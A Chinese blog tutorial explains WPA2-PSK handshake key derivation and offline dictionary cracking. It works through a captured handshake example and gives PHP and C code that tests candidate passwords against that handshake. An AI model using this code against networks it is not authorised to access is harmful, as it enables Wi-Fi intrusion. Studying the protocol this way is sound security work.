





终于等到了这一天！平时学习任务繁重，没太多时间倒腾自己想弄的东西。最近终于抽出了3天，专攻了一下WPA2的加密方式，并且自己用php和C写出了代码。
在此首先感谢Sword York在slinuxer上发表的文章《WPA/WPA2-PSK认证过程》，如果没有他的python代码演示，我真不知道要如何下手。
================阶段一：WPA2破解原理================
WPA2相比WEP破解难度增加了很多，一个关键原因就是，WPA2的每次会话所使用的密钥都不相同，即每次会话都会随机生成一个临时密钥以加密数据。而这个临时密钥，则是在客户端连接上热点时，双方协商产生。因此，只有捕获了WPA2认证时的四次握手（我发现其实只需要前两次握手），才能破解密码。而破解密码只能使用穷举字典攻击，即每次试验一个可能的密码，然后按照WPA2的认证流程来产生哈希值，如果与握手包中的一致，那么极有可能就是正确的密码了。
因此，破解WPA2的关键就是两点——握手包、字典。
================阶段二：WPA2认证过程================
为了下述方便，下文中接入点就写作AP，工作站就写作STA。并假设下文所描述的认证过程是AP与一个合法的STA之间进行的。而且出于一定的功利性，下文只讲述破解所需的前两次握手。
WPA2的认证过程是发生在Authentication与Association之后的。在四次握手开始之前，AP与一个合法的STA都已经知道了SSID和各自的MAC地址（AP的MAC地址记作AP_MAC，STA的MAC地址记作STA_MAC）。
1、在第一次握手之前：
AP与STA都知道wifi密码password、SSID，因此，通过算法
psk=pbkdf2_sha1(password,ssid,4096,64);
可以计算得到psk。其中password就是pbkdf2_sha1算法的密钥，ssid就是“盐（salt）”，4096是802.11规范规定的迭代次数，而64表示生成的psk是一个64字节的数据。pbkdf2_sha1算法可以参考《pbkdf2-shaX摘要算法以及C语言实现》。
之后，AP随机生成一个32字节的随机数，叫做AP_Nonce。
2、第一次握手：
AP向STA发送一个数据帧，包含了AP_Nonce。
3、在第一次握手与第二次握手之间：
STA收到AP_Nonce之后，也随机生成一个32字节的随机数，叫做STA_Nonce。此时STA同时知道了AP_MAC、STA_MAC、AP_Nonce和STA_Nonce四个要素，于是通过算法
ptk_data="Pairwise key expansion\0"
+min(AP_MAC,STA_MAC)
+max(AP_MAC,STA_MAC)
+min(AP_Nonce,STA_Nonce)
+max(AP_Nonce,STA_Nonce)
+"\0";
ptk=hmac_sha1(ptk_data,psk,16);
得到ptk。算法中，+号表示将数据段串联，min(a,b)表示a和b两端数据按字节比较，取小的那个，max(a,b)反之。因此ptk_data的长度是strlen(“Pairwise key expansion\0”)+2*6+2*32+1=23+12+64+1=100字节。
然后，把之前得到的psk当作密钥，对数据ptk_data进行hmac_sha1加密，得到一个长度为16字节的结果ptk。
再接下来，STA构造好要发送给AP的数据帧，把其中的数据负载部分（802.1X Authentication）取出，记作step2_data（step2_data共121字节），然后执行算法：
mic=hmac_sha1(step2_data,ptk,16);
第二次握手：
STA向AP发送一个数据帧，包含了一个关键数据STA_Nonce与mic。
于是，握手的前两次就算完成了。其实AP在收到第二次握手后，也以相同的算法计算mic，如果和客户端传来的相等，那么认为客户端有正确的密码。
===================阶段三：破解思路====================
由以上步骤可以得到破解思路如下：
1、抓包，得到前两次握手包，进而得到SSID、AP_MAC、STA_MAC、AP_Nonce、STA_Nonce、step2_data与mic。
2、选定一个可能的密码password，执行下列算法：
psk=pbkdf2_sha1(password,SSID,4096,64);
ptk_data="Pairwise key expansion\0"
+min(AP_MAC,STA_MAC)
+max(AP_MAC,STA_MAC)
+min(AP_Nonce,STA_Nonce)
+max(AP_Nonce,STA_Nonce)
+"\0";
ptk=hmac_sha1(ptk_data,psk,16);
mic=hmac_sha1(step2_data,ptk,16);
得到mic，与收集到的mic比较，如果相等，那么password极有可能就是正确的密钥了。
3、不断迭代步骤2，穷举整个字典，直到搜索到密码或穷尽为止。
===================阶段四：破解案例==================
该案例来自《WPA/WPA2-PSK认证过程》，再次表示感谢！
首先是抓到的四次握手数据帧，为了方便大家研究，再此提供下载链接。用wireshark打开以后，可以看到有4个握手包，如图：

这个热点的SSID是“TP-LINK_4F6C90”，这个无法从握手包中得知，不过要攻击者自己肯定知道。SSID转换成16进制就是：
54 50 2d 4c 49 4e 4b 5f 34 46 36 43 39 30
查看第一个握手包，可以看到如图：

所以得知AP_Nonce是
33 20 ce d2 53 5e d6 97 d5 2c 27 2a ee a7 99 d4 d1 88 a4 60 31 42 f3 7a 24 0f 80 64 d7 cd f5 88
同时也可以得知AP_MAC为
20 dc e6 4f 6c 90
STA_MAC为
e0 b9 a5 1f e7 94
接着，查看第二个握手包，可以看到如图：

所以得知STA_Nonce是
b4 45 5d 0b c4 46 64 5c 59 57 43 4f 65 3a d0 bf a5 9f 6b e1 a2 65 fb f3 3b 7d 54 7b 1b 48 45 34
同时，从第二个握手包中还可以得到MIC为
88 73 42 b8 16 1d f2 30 c8 48 80 cb e9 07 4f f8
如图：

现在就差step2_data了。step2_data就是LLC的负载，如图：

不过需要注意的是，客户端在计算mic之前，step2_data中mic对应的16字节全是0，所以step2_data应该是：
01 03 00 75 02 01 0a 00 00 00 00 00 00 00 00 00 01 b4 45 5d 0b c4 46 64 5c 59 57 43 4f 65 3a d0 bf a5 9f 6b e1 a2 65 fb f3 3b 7d 54 7b 1b 48 45 34 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 16 30 14 01 00 00 0f ac 04 01 00 00 0f ac 04 01 00 00 0f ac 02 00 00
至此，所需的SSID、AP_MAC、STA_MAC、AP_Nonce、STA_Nonce、step2_data与mic都已经到手了。
让我们用php来写一个验证密码正确与否的函数：
function is_password($p_handshake,$p_password)
{
$t_psk=hash_pbkdf2("sha1",$p_password,$p_handshake["ssid"],4096,32,true);
$t_ptk_data="Pairwise key expansion\0"
.min($p_handshake["ap_mac"],$p_handshake["sta_mac"])
.max($p_handshake["ap_mac"],$p_handshake["sta_mac"])
.min($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
.max($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
."\0";
$t_ptk=hash_hmac("sha1",$t_ptk_data,$t_psk,true);
$t_mic=hash_hmac("sha1",$p_handshake["step2_data"],substr($t_ptk,0,16),true);
return substr($t_mic,0,16)==$p_handshake["mic"];
}
以上述的数据为例，使用该函数的代码如下：
$g_handshake=array();
$g_handshake["ssid"]=hex2bin("54502d4c494e4b5f344636433930");
$g_handshake["ap_mac"]=hex2bin("20dce64f6c90");
$g_handshake["sta_mac"]=hex2bin("e0b9a51fe794");
$g_handshake["ap_nonce"]=hex2bin("3320ced2535ed697d52c272aeea799d4d188a4603142f37a240f8064d7cdf588");
$g_handshake["sta_nonce"]=hex2bin("b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b484534");
$g_handshake["step2_data"]=hex2bin("0103007502010a00000000000000000001b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b484534000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000");
$g_handshake["mic"]=hex2bin("887342b8161df230c84880cbe9074ff8");
function is_password($p_handshake,$p_password)
{
$t_psk=hash_pbkdf2("sha1",$p_password,$p_handshake["ssid"],4096,32,true);
$t_ptk_data="Pairwise key expansion\0"
.min($p_handshake["ap_mac"],$p_handshake["sta_mac"])
.max($p_handshake["ap_mac"],$p_handshake["sta_mac"])
.min($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
.max($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
."\0";
$t_ptk=hash_hmac("sha1",$t_ptk_data,$t_psk,true);
$t_mic=hash_hmac("sha1",$p_handshake["step2_data"],substr($t_ptk,0,16),true);
return substr($t_mic,0,16)==$p_handshake["mic"];
}
$g_password="LINUXZSJ";
echo is_password($g_handshake,$g_password);
程序输出1，说明”LINUXZSJ”是该AP的密码。
==================阶段五：用C语言实现==================
php因为语法简单明晰，用来演示算法不错，但真用来大规模计算，效率不敢恭维。在我机器上，循环1000次，php用时12.6秒，而C用时2.6秒，将近5倍！
C语言的实现就不解释了，直接给出代码。共fastpbkdf2.h、fastpbkdf2.c、hmac.h、hmac_sha1.c、wpa2break.h、wpa2break.c和main.c七个文件。其中，fastpbkdf2.h和fastpbkdf2.c的源码请参考《pbkdf2-shaX摘要算法以及C语言实现》，而hmac.h、hmac_sha1.c的源码请参考《hmac-sha1摘要算法以及C语言实现》。以下给出wpa2break.h、wpa2break.c和main.c的源码～
wpa2break.h
#ifndef WPA2BREAK_H
#define WPA2BREAK_H
#include <stdint.h>
#define WPA2_SSID_MAX_LEN 32
#define WPA2_MAC_LEN 6
#define WPA2_NONCE_LEN 32
#define WPA2_STEP2_DATA_LEN 121
#define WPA2_MIC_OFFSET 81
#define WPA2_PSK_LEN 32
#define WPA2_PBKDF2_LOOP 4096
#define WPA2_WORD "Pairwise key expansion\0"
#define WPA2_WORD_LEN 23
#define WPA2_PTK_LEN 16
#define WPA2_PTK_DATA_LEN (WPA2_WORD_LEN+2*WPA2_MAC_LEN+2*WPA2_NONCE_LEN+1)
#define WPA2_MIC_LEN 16
typedef struct
{
uint8_t ssid[WPA2_SSID_MAX_LEN];
uint8_t ssid_len;
uint8_t ap_mac[WPA2_MAC_LEN];
uint8_t sta_mac[WPA2_MAC_LEN];
uint8_t ap_nonce[WPA2_NONCE_LEN];
uint8_t sta_nonce[WPA2_NONCE_LEN];
uint8_t step2_data[WPA2_STEP2_DATA_LEN];
uint8_t step2_mic[WPA2_MIC_LEN];
struct
{
uint8_t ptk_data[WPA2_PTK_DATA_LEN];
}
mid_value;
}
wpa2_handshake_t;
void wpa2break_init_mid_value(wpa2_handshake_t* p_handshake);
int wpa2break_is_password(wpa2_handshake_t* p_handshake,uint8_t* p_password,uint8_t p_len);
#endif
wpa2break.c
#include "wpa2break.h"
#include "fastpbkdf2.h"
#include "hmac.h"
#include <string.h>
#include <stdio.h>
static void mem_min_max(uint8_t** p_min,uint8_t** p_max,uint8_t p_len)
{
int t_cmp=memcmp(*p_min,*p_max,p_len);
if(t_cmp>0)
{
uint8_t* p_temp=*p_min;
*p_min=*p_max;
*p_max=p_temp;
}
}
void wpa2break_init_mid_value(wpa2_handshake_t* p_handshake)
{
uint8_t* t_ptk_data=p_handshake->mid_value.ptk_data;
memcpy(t_ptk_data,WPA2_WORD,WPA2_WORD_LEN);
uint8_t* t_min=p_handshake->ap_mac;
uint8_t* t_max=p_handshake->sta_mac;
mem_min_max(&t_min,&t_max,WPA2_MAC_LEN);
memcpy(t_ptk_data+WPA2_WORD_LEN,t_min,WPA2_MAC_LEN);
memcpy(t_ptk_data+WPA2_WORD_LEN+WPA2_MAC_LEN,t_max,WPA2_MAC_LEN);
t_min=p_handshake->ap_nonce;
t_max=p_handshake->sta_nonce;
mem_min_max(&t_min,&t_max,WPA2_NONCE_LEN);
memcpy(t_ptk_data+WPA2_WORD_LEN+2*WPA2_MAC_LEN,t_min,WPA2_NONCE_LEN);
memcpy(t_ptk_data+WPA2_WORD_LEN+2*WPA2_MAC_LEN+WPA2_NONCE_LEN,t_max,WPA2_NONCE_LEN);
t_ptk_data[WPA2_PTK_DATA_LEN-1]=0;
memset(p_handshake->step2_data+WPA2_MIC_OFFSET,0,WPA2_MIC_LEN);
}
int wpa2break_is_password(wpa2_handshake_t* p_handshake,uint8_t* p_password,uint8_t p_len)
{
uint8_t t_psk[WPA2_PSK_LEN];
fastpbkdf2_hmac_sha1(p_password,p_len,p_handshake->ssid,p_handshake->ssid_len,WPA2_PBKDF2_LOOP,t_psk,WPA2_PSK_LEN);
uint8_t t_ptk[WPA2_PTK_LEN];
uint32_t t_ptk_len=WPA2_PTK_LEN;
hmac_sha1(t_psk,WPA2_PSK_LEN,p_handshake->mid_value.ptk_data,WPA2_PTK_DATA_LEN,t_ptk,&t_ptk_len);
uint8_t t_mic[WPA2_MIC_LEN];
uint32_t t_mic_len=WPA2_MIC_LEN;
hmac_sha1(t_ptk,WPA2_PTK_LEN,p_handshake->step2_data,WPA2_STEP2_DATA_LEN,t_mic,&t_mic_len);
return memcmp(p_handshake->step2_mic,t_mic,WPA2_MIC_LEN)==0;
}
main.c
#include <stdio.h>
#include <string.h>
#include "wpa2break.h"
static int hex2dig(char p_hex)
{
if('0'<=p_hex&&p_hex<='9')
return p_hex-'0';
if('a'<=p_hex&&p_hex<='f')
return p_hex-'a'+10;
return 0;
}
static void hex2bin(char* p_hex,uint8_t* p_bin)
{
int t_len=strlen(p_hex)/2;
int t_i;
for(t_i=0;t_i<t_len;t_i++)
p_bin[t_i]=hex2dig(p_hex[2*t_i])*16+hex2dig(p_hex[2*t_i+1]);
}
int main()
{
wpa2_handshake_t t_handshake;
FILE* t_file=fopen("ap1.txt","r");
char t_buffer[1024];
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.ssid);
t_handshake.ssid_len=strlen((char*)t_handshake.ssid);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.ap_mac);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.sta_mac);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.ap_nonce);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.sta_nonce);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.step2_data);
fgets(t_buffer,sizeof(t_buffer),t_file);
hex2bin(t_buffer,t_handshake.step2_mic);
fclose(t_file);
wpa2break_init_mid_value(&t_handshake);
printf("%dn",wpa2break_is_password(&t_handshake,(uint8_t*)"LINUXZSJ",8));
return 0;
}
然后是makefile文件：
main: main.o hmac_sha1.o fastpbkdf2.o wpa2break.o gcc main.o hmac_sha1.o fastpbkdf2.o wpa2break.o -lcrypto -o main main.o: main.c gcc -c main.c -o main.o hmac_sha1.o: hmac_sha1.c gcc -c hmac_sha1.c -o hmac_sha1.o fastpbkdf2.o: fastpbkdf2.c gcc -c fastpbkdf2.c -std=c99 -o fastpbkdf2.o wpa2break.o: wpa2break.c gcc -c wpa2break.c -o wpa2break.o
并附上main.c中需要使用的ap1.txt文件：
54502d4c494e4b5f344636433930 20dce64f6c90 e0b9a51fe794 3320ced2535ed697d52c272aeea799d4d188a4603142f37a240f8064d7cdf588 b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b484534 0103007502010a00000000000000000001b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b4845340000000000000000000000000000000000000000000000000000000000000000887342b8161df230c84880cbe9074ff8001630140100000fac040100000fac040100000fac020000 887342b8161df230c84880cbe9074ff8
ap1.txt一行表示一个数据，从上到下依次是SSID、AP_MAC、STA_MAC、AP_Nonce、STA_Nonce、step2_data和MIC。